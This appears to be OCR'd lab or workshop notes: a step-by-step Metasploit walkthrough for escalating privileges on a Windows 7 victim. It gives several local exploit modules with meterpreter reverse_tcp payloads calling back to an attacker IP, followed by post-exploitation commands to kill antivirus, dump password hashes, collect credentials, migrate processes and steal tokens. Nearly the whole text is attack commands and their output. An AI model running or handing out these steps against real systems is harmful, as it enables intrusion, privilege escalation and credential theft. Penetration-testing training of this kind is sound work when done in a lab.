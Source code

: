  
--Option 7:
use exploit/windows/local/ppr_flatten_rec
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7777
exploit
 
--Option 8:
use exploit/windows/local/ms_ndproxy
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7788
exploit
 
 
--Option 9:
use exploit/windows/local/ask
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7799
exploit
 
 
meterpreter > getuid
Server username: win7-64-victim\Workshop
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
 
--------------------------------------------------------
 
meterpreter> run killav
 
meterpreter> run post/windows/gather/hashdump
 
meterpreter > ps                (search for a process running as NT AUTHORITY\SYSTEM)
 
meterpreter > migrate 2800      (your process id WILL NOT be 2800, but make sure you use one that is running at NT AUTHORITY\SYSTEM)
 
meterpreter> run post/windows/gather/credentials/credential_collector
 
 
********************************** Steal Tokens **********************************
 
meterpreter > getsystem
 
meterpreter > use incognito
 
meterpreter > list_tokens -u
 